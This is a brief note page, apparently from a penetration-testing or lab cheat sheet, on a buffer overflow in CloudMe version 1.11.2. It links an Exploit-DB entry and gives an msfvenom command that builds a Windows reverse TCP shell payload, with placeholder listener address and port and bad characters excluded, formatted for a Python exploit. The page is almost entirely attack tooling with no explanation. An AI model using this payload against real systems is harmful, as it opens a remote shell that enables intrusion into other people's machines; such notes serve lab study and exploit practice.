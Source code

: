 # cloudMe

### BOF v1.11.2 <a href="bof-v1112" id="bof-v1112"></a>

```
https://www.exploit-db.com/exploits/48389
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT-b '\x00\x0A\x0D' -f python -v payload
```
